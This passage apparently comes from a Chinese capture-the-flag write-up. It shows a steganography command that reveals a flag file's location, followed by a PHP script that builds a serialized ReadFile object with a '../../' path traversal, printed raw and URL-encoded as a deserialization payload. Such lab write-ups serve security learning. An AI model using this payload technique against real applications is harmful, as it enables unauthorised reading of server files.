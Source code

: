 ```bash
C:\Users\light\Desktop>SNOW.EXE -C -p ILOveExp 1.html
flag in /PPPPOOO0CCCC.php
```

结合在hlnt_2表中获取的Hint2:`a class for you "https://postimg.cc/6274vCP5"`。

![](/assets/images/move/1552905948498-139225fc-192b-4729-bf3e-789167cb6a2b.png)

Payload：

```php
<?php
class ReadFile {
	public $file;
}

$payload = new ReadFile();
$payload->file = '../../PPPPOOO0CCCC.php';
echo serialize($payload);

//O:8:"ReadFile":1:{s:4:"file";s:22:"../../PPPPOOO0CCCC.php";}
//encodeURIComponent
//O%3A8%3A%22ReadFile%22%3A1%3A%7Bs%3A4%3A%22file%22%3Bs%3A22%3A%22..%2F..%2FPPPPOOO0CCCC.php%22%3B%7D
```

![](/assets/images/move/1552915162974-b150a5ab-0959-403f-b80e-ea36a748debb.png)
